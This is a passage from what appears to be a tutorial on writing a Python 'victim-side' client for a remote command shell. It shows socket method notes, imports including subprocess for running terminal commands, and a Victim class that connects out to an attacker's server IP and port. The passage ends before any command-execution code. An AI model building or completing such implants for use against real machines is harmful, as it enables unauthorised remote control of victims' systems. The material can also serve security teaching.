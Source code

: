<td markdown="span">s.recv()</td>
<td markdown="span">receives TCP message</td>
</tr>
<tr>
<td markdown="span">s.send()</td>
<td markdown="span">transmits TCP message</td>
</tr>
<tr>
<td markdown="span">s.close()</td>
<td markdown="span">closes socket</td>
</tr>
</tbody>
</table>

## Client/Victim-side Script
### Requirements
We need the following python modules to build our victim-side script. `socket` is used to provide the client-side methods we saw earlier. `subprocess` will be required to execute a command on the terminal. `ast` will only be used to convert a python `list-string` into a `list`. 
```python
import socket
import subprocess
import ast
```

Now, we will use `python class` to define victim-side methods. Point to be noted, you can simply use the socket functions without even creating a class. However, to make everything modular and to add further methods, I chose to design it as a class. 

### Initializer method
Now, let's create a class named `Victim` and write an initializer method that takes the `server IP address` and `server port` as arguments.
```python
class Victim:
    def __init__(self, server_ip, server_port):
        self.server_ip = server_ip
        self.server_port = server_port
```

### Connect to server
We need to launch a TCP connection and connect to the server. To do that, we need the following.
```python
    def connect_to_server(self):
        print("####################################")
        print("########## Client Program ##########")
        print("####################################")

        self.client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

        print("Msg: Client Initiated...")
        self.client.connect((self.server_ip, self.server_port))
        print("Msg: Connection initiated...")
```
